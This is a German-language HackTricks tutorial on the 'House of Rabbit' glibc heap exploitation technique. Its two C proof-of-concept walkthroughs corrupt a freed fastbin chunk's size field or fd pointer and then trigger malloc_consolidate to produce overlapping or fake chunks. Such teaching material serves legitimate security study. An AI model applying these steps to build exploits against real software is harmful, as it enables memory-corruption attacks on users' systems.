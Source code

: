 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Anforderungen

1. **Fähigkeit, den fast bin fd-Zeiger oder die Größe zu ändern**: Das bedeutet, dass Sie den Vorwärtszeiger eines Chunks im Fastbin oder dessen Größe ändern können.
2. **Fähigkeit, `malloc_consolidate` auszulösen**: Dies kann erreicht werden, indem entweder ein großer Chunk zugewiesen oder der obere Chunk zusammengeführt wird, was den Heap zwingt, Chunks zu konsolidieren.

### Ziele

1. **Überlappende Chunks erstellen**: Um einen Chunk mit einem anderen zu überlappen, was weitere Heap-Manipulationen ermöglicht.
2. **Falsche Chunks fälschen**: Um den Allokator dazu zu bringen, einen falschen Chunk während der Heap-Operationen als legitimen Chunk zu behandeln.

## Schritte des Angriffs

### POC 1: Ändern der Größe eines Fast Bin Chunks

**Ziel**: Erstellen eines überlappenden Chunks durch Manipulation der Größe eines Fastbin Chunks.

- **Schritt 1: Chunks zuweisen**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Wir allokieren zwei Chunks von jeweils 0x40 Bytes. Diese Chunks werden in die Fast-Bin-Liste aufgenommen, sobald sie freigegeben werden.

- **Schritt 2: Chunks freigeben**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Wir geben beide Chunks frei und fügen sie der Fastbin-Liste hinzu.

- **Schritt 3: Chunk-Größe ändern**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Wir ändern die Größenmetadaten von `chunk1` auf 0xa1. Dies ist ein entscheidender Schritt, um den Allokator während der Konsolidierung zu täuschen.

- **Schritt 4: `malloc_consolidate` auslösen**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Das Zuweisen eines großen Blocks löst die Funktion `malloc_consolidate` aus, die kleine Blöcke im Fast Bin zusammenführt. Die manipulierte Größe von `chunk1` führt dazu, dass es sich mit `chunk2` überschneidet.

Nach der Konsolidierung überschneidet sich `chunk1` mit `chunk2`, was weitere Ausnutzung ermöglicht.

### POC 2: Ändern des `fd` Zeigers

**Ziel**: Erstellen Sie einen gefälschten Block, indem Sie den Fast Bin `fd` Zeiger manipulieren.

- **Schritt 1: Blöcke zuweisen**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Erklärung**: Wir allokieren zwei Chunks, einen kleineren und einen größeren, um den Heap für den gefälschten Chunk einzurichten.

- **Schritt 2: Erstelle gefälschten Chunk**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Wir schreiben gefälschte Chunk-Metadaten in `chunk2`, um kleinere Chunks zu simulieren.

- **Schritt 3: Freigeben von `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Erklärung**: Wir geben `chunk1` frei und fügen es der Fastbin-Liste hinzu.

- **Schritt 4: Ändere `fd` von `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Erklärung**: Wir ändern den Vorwärtszeiger (`fd`) von `chunk1`, um auf unseren gefälschten Chunk innerhalb von `chunk2` zu zeigen.

- **Schritt 5: Trigger `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Das Zuweisen eines großen Blocks löst erneut `malloc_consolidate` aus, das den gefälschten Block verarbeitet.

Der gefälschte Block wird Teil der Fastbin-Liste, wodurch er zu einem legitimen Block für weitere Ausnutzung wird.

### Zusammenfassung

Die **House of Rabbit**-Technik beinhaltet entweder die Änderung der Größe eines Fastbin-Blocks, um überlappende Blöcke zu erstellen, oder die Manipulation des `fd`-Zeigers, um gefälschte Blöcke zu erstellen. Dies ermöglicht Angreifern, legitime Blöcke im Heap zu fälschen, was verschiedene Formen der Ausnutzung ermöglicht. Das Verständnis und die Übung dieser Schritte werden Ihre Fähigkeiten zur Heap-Ausnutzung verbessern.

{{#include ../../banners/hacktricks-training.md}}
